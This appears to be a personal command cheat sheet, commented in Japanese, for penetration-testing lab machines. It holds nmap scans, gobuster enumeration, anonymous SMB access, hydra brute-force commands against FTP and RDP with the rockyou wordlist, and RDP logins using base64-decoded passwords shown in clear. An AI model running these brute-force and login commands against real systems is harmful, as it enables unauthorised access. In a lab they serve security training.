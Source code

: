 
# ポートスキャン・サービスバナー取得
nmap -sV -p- 10.10.5.125

# HTTPヘッダー確認（flag含む）
nmap -p 80 --script http-headers 10.10.5.125

# SSHバナー確認（flag含む）
nmap -p 22 --script banner 10.10.5.125

# FTPログイン試行（hydraでブルートフォース）ポート10021
hydra -l eddie -P /usr/share/wordlists/rockyou.txt -f -s 10021 ftp://10.10.5.125
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -f -s 10021 ftp://10.10.5.125

# FTP接続（手動ログイン）
ftp 10.10.5.125 10021

# FTP内の操作例
ls
get ファイル名
put ファイル名

# 🔍 スキャン・列挙フェーズ
nmap -sV -O 10.10.196.72

gobuster dir -u http://10.10.196.72 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http

smbclient -L //10.10.196.72 -N
smbclient //10.10.196.72/nt4wrksv -N
smbclient //10.10.196.72/nt4wrksv -U 'Bob'

# 🔐 パスワード復号（Base64）
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d

# 💻 RDP ログイン試行
xfreerdp /u:Bob /p:'!P@$$W0rD!123' /v:10.10.196.72
xfreerdp /u:Bill /p:'Juw4nnaM4n420696969!$$$' /v:10.10.196.72

# 💣 RDP ブルートフォース
hydra -l Bob -P /usr/share/wordlists/rockyou.txt rdp://10.10.196.72
